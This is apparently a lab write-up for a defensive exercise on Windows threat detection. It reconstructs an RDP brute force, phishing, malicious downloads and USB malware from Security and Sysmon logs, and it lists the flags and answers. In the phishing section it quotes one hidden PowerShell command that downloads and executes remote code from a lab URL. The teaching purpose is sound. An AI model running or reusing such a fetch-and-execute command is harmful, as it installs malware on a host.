


# Windows Threat Detection

## Overview

This investigation focused on detecting common Windows initial-access techniques and reconstructing attack activity through Windows Security Logs and Sysmon.

The investigation covered the following areas:

* Initial Access via RDP
* Initial Access via Phishing
* Detecting Malicious Downloads
* Initial Access via USB
* Windows Security Event IDs
* Sysmon Event IDs
* Attack-chain reconstruction

---

# Initial Access via RDP

## Overview

In the VM scenario, the IT administrator exposed RDP on a production server so it could be accessed from home on weekends. The investigation focused on reconstructing the resulting breach using Event Viewer and the provided `RDP-Security.evtx` file.

### Investigation

The following findings were identified from the RDP Security logs.

#### Finding 1: Brute-Forced User

| Artifact | Value |
| -------- | ----- |
| Event ID | `4625` |
| Target User | `Administrator` |

The `Administrator` account appeared to be the most actively brute-forced account by botnets.

#### Finding 2: RDP Source IP

| Artifact | Value |
| -------- | ----- |
| Event ID | `4624` |
| Logon Type | `10` |
| Attacker IP | `203.205.34.107` |

The IP address `203.205.34.107` successfully breached the host through RDP.

#### Finding 3: Threat Actor Workstation

| Artifact | Value |
| -------- | ----- |
| Workstation Name | `DESKTOP-QNBC4UU` |

The real workstation name associated with the threat actor was identified as `DESKTOP-QNBC4UU`.



---

# Initial Access via Phishing

## Overview

Phishing remains a significant initial-access technique because users with Internet access can unknowingly download or execute malicious files.

This investigation focused on two phishing techniques:

* Malicious binaries
* LNK attachments

The phishing attachment examples were located in:

```text
C:\Users\Administrator\Desktop\Practice\Phishing Case 1-3
```

### Finding 1: Misleading File Extension

The first phishing attachment was executed from the Phishing Case 1 folder.

| Artifact | Value |
| -------- | ----- |
| Flag | `THM{misleading_extension}` |

The attachment demonstrated how a misleading filename or extension can be used to disguise a malicious file.

### Finding 2: Malicious LNK Download URL

The second phishing attachment contained a malicious LNK file that used PowerShell to download the next-stage malware.

#### PowerShell Command

```text
C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -WindowStyle hidden -c iex (iwr -UseBasicParsing "http://wp16.hqywlqpa.thm:8000/cgi-bin/f").Content
```

| Artifact | Value |
| -------- | ----- |
| Download URL | `http://wp16.hqywlqpa.thm:8000/cgi-bin/f` |

The malicious LNK used PowerShell to retrieve and execute content from the identified URL.

### Finding 3: Double-Extension File

The third phishing case contained a suspicious double-extension file.

| Artifact | Value |
| -------- | ----- |
| File | `best-cat.jpg.exe` |

The file used a double extension to make the executable appear to be an image file.

---

# Detecting Malicious Downloads

## Overview

Malicious downloads can be investigated by following the activity from the browser to the downloaded file and, eventually, the execution of the malware.

Sysmon can provide visibility into each stage of the attack.

## Sysmon Event ID 1: Web Browser Launched

```text
Image: C:\Program Files (x86)\Microsoft\Edge\Application\msedge.exe
ParentImage: C:\Windows\Explorer.EXE
```

Sysmon Event ID `1` records process creation. In this example, Microsoft Edge was launched by Windows Explorer.

## Sysmon Event ID 11: File Appears in Downloads

```text
Image: C:\Program Files (x86)\Microsoft\Edge\Application\msedge.exe
TargetFilename: C:\Users\User\Downloads\invoice.zip*
```

Sysmon Event ID `11` can identify files created on the system, including downloaded archives.

## Sysmon Event ID 11: Suspicious File Extracted

```text
Image: C:\Windows\Explorer.EXE
```

or:

```text
Image: C:\Program Files\7-Zip\7zG.exe
```

Example target:

```text
TargetFilename: C:\Users\User\Downloads\invoice.pdf.exe
```

This can indicate that a suspicious executable was extracted from an archive.

## Sysmon Event ID 1: Malware Executed

```text
Image: C:\Users\User\Downloads\invoice.pdf.exe
ParentImage: C:\Windows\Explorer.EXE
```

This indicates that the user launched the extracted executable.

---

## Phishing Case 3 Investigation

The following Sysmon log was investigated:

```text
C:\Users\Administrator\Desktop\Practice\Phishing Case 3\Phishing-Sysmon.evtx
```

### Finding 1: Downloaded File

| Artifact | Value |
| -------- | ----- |
| Event ID | `11` |
| Downloaded File | `C:\Users\Administrator\Downloads\top-cats.zip` |

The user downloaded `top-cats.zip` through the web browser.

### Finding 2: Extraction Location

| Artifact | Value |
| -------- | ----- |
| Event ID | `1` |
| Extraction Folder | `C:\Users\Administrator\Pictures` |

The suspicious file was unarchived into the user's Pictures folder.

### Finding 3: Phishing Malware Process ID

| Artifact | Value |
| -------- | ----- |
| Process ID | `5484` |

The process ID of the launched phishing malware was `5484`.

### Finding 4: Malicious Domain

| Artifact | Value |
| -------- | ----- |
| Event ID | `22` |
| Event Type | DNS Request |
| Malicious Domain | `rjj.store` |

The malware attempted to connect to the malicious domain `rjj.store`.

---

# Initial Access via USB

## Overview

Infected USB devices can provide threat actors with another method of gaining initial access to a Windows system.

Removable media can bypass network-based security controls and, depending on the attack, can allow malware to spread without requiring Internet access.

The investigation used the following Sysmon log:

```text
C:\Users\Administrator\Desktop\Practice\USB Case\USB-Sysmon.evtx
```

### Finding 1: USB File Executed

| Artifact | Value |
| -------- | ----- |
| Event ID | `1` |
| USB File | `E:\Open Sandisk 4GB USB.exe` |

The user launched `Open Sandisk 4GB USB.exe` from the USB drive.



### Finding 2: Malware Dropped File

| Artifact | Value |
| -------- | ----- |
| Event ID | `11` |
| Dropped File | `C:\Users\Public\Documents\winupdate.exe` |

The malware dropped `winupdate.exe` onto the host.

### Finding 3: USB Propagation

| Artifact | Value |
| -------- | ----- |
| Destination USB | `F:` |

The malware propagated to another USB drive identified by the drive letter `F:`.

---

# Attack Chain

The investigation demonstrated several Windows initial-access techniques and the associated evidence that can be identified using Security Logs and Sysmon:

1. **RDP Brute Force** — The `Administrator` account was actively targeted.
2. **RDP Compromise** — `203.205.34.107` successfully accessed the host using RDP.
3. **Threat Actor Identification** — The workstation name was identified as `DESKTOP-QNBC4UU`.
4. **Phishing Attachment** — A misleading executable produced the flag `THM{misleading_extension}`.
5. **Malicious LNK** — A malicious LNK used PowerShell to download the next-stage malware.
6. **Double Extension** — `best-cat.jpg.exe` demonstrated a misleading file extension.
7. **Malicious Download** — `top-cats.zip` was downloaded through a web browser.
8. **File Extraction** — The suspicious file was extracted into `C:\Users\Administrator\Pictures`.
9. **Malware Execution** — The phishing malware was associated with process ID `5484`.
10. **DNS Activity** — The malware attempted to connect to `rjj.store`.
11. **USB Initial Access** — `E:\Open Sandisk 4GB USB.exe` was executed.
12. **Malware Drop** — The malware created `C:\Users\Public\Documents\winupdate.exe`.
13. **USB Propagation** — The malware propagated to the `F:` USB drive.

---

# Key Findings

| Investigation Area | Finding |
| ------------------ | ------- |
| Brute-Forced User | `Administrator` |
| RDP Event ID | `4624` / `4625` |
| RDP Logon Type | `10` |
| RDP Source IP | `203.205.34.107` |
| Threat Actor Workstation | `DESKTOP-QNBC4UU` |
| Phishing Flag | `THM{misleading_extension}` |
| Malicious LNK URL | `http://wp16.hqywlqpa.thm:8000/cgi-bin/f` |
| Double-Extension File | `best-cat.jpg.exe` |
| Downloaded Archive | `C:\Users\Administrator\Downloads\top-cats.zip` |
| Extraction Folder | `C:\Users\Administrator\Pictures` |
| Phishing Malware PID | `5484` |
| Malicious Domain | `rjj.store` |
| USB Executable | `E:\Open Sandisk 4GB USB.exe` |
| Dropped Malware | `C:\Users\Public\Documents\winupdate.exe` |
| Propagated USB | `F:` |

---

# Skills Demonstrated

* Windows Security Log Analysis
* RDP Investigation
* Brute Force Detection
* Phishing Investigation
* Malicious File Detection
* Double-Extension Detection
* Malicious Download Detection
* DNS Investigation
* SOC Investigation and Triage
